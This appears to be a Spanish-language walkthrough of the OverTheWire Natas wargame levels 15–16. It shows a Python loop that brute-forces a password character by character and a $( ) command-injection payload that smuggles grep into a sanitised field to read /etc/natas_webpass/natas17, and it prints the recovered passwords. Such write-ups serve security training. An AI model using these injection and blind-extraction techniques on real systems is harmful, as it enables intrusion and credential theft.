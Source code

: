 ```
#     if is_true(i):
#         chars = chars + i
# print chars

chars = "BEHINORWacehijmnpqtw03569"
i=1
passwd = ""
while len(passwd) < 32:
    for c in chars:
        if is_true(passwd + c):
            passwd = passwd + c
            print passwd
```

Ejecuto:

W
Wa
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
[...]

natas16 : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

# natas16

Este caso es una complicación de natas9 y natas 10 y se resuelve con una lógica similar al anterior. Se ejecuta un grep más sanitizado pero de la fuente resulta bastante obvio que se puede inyectar código con $(). La grecia está en cómo hacerlo...

grep -i "<texto sanitizado>" dictionary.txt
grep -i "$(echo injections)" dictionary.txt da como resultado "injections"

A partir de ahí podemos empezar a buscar "letra a letra" en el fichero `/etc/natas_webpass/natas17`

`$(grep <c> /etc/natas_webpass/natas17)`

Completo sería:

`grep -i "$(grep <c> /etc/natas_webpass/natas17)injections"` dictionary.txt

¿Por qué se añade injections? Porque si el resultado de $() es nulo, seguirá apareciendo injections como resultado final. Sin embargo, si $() encuentra algo, el resultado final será nulo (porque no hay ningún "prefijo" que añadido a injections de resultado)

A partir de ahí, hay que crear un script similar al del caso anterior.

El resultado es 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

# natas17

